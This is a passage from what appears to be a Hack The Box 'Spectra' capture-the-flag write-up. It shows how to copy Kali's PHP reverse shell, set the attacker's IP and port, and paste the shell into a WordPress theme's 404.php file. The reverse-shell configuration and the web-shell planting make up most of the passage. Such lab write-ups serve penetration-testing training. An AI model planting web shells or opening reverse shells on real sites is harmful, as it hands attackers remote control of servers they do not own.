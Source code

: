 Then chose the 404.php file to edit:

![spectra-404.php](/assets/images/2021-03-21-17-19-41.png)

Over on Kali, copy an existing reverse shell to our current folder:

```text
┌──(root💀kali)-[~/htb/spectra]
└─# cp /usr/share/webshells/php/php-reverse-shell.php .
```

Edit it and change the IP to our TUN0:

```text

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.114';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Copy the entire contents of the file, then switch back to WordPress and replace the 404.php file with our reverse shell:

![spectra-404](/assets/images/2021-03-21-17-13-40.png)
